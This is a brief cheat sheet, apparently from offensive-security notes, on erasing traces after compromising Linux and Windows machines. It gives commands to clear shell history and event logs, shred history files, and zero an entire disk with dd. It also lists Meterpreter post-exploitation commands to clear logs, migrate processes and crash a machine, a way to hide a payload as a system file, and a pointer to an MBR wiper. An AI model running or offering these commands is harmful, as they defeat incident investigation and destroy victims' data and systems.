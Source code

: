 ## Linux
- Command History (from all sessions): 
   - `home/user/.bash_history`
   - `root/.bash_history`
- How to clear logs:
   1. `export HISTSIZE=0` (clear command history)
   2. `history -c` (clear command history of active session)
   3. `nano /var/log/messages` ; CTL+6 & mark all & CTL-K (delete event logs)
   4. `shred -zu root/.bash_history` (overwrite file with zeros, deallocate and remove after overwriting)
   5. `dd if=/dev/zero of=/dev/sda` (overwrite hard disk with zeros)

## Windows:
- How to clear logs:
   1. via existing meterpreter session: `clearev` (clear event logs + "Log Clear" log appears)
   2. via existing meterpreter session: `run event_manager -c Security` (clear security logs)
   3. via existing meterpreter session: `migrate [pid]` (use pid of common process like explorer.exe)
   4. download [clearlogs.exe](https://sourceforge.net/projects/clearlogs/) onto Windows machine + `run` (no "Log Clear" log pops up in Event Viewer)
   5. CLI: `attrib +h +s payload.exe` (make payload as hidden system file)
   6. Check out: [https://www.scriptjunkie.us/2011/05/system-kill/](https://www.scriptjunkie.us/2011/05/system-kill/) 
      - wipes MBR and Partition Table (!)
   7. via existing meterpreter session: `use post/windows/kill` ; select session ; `run` (crashing the machine and wiping its traces)
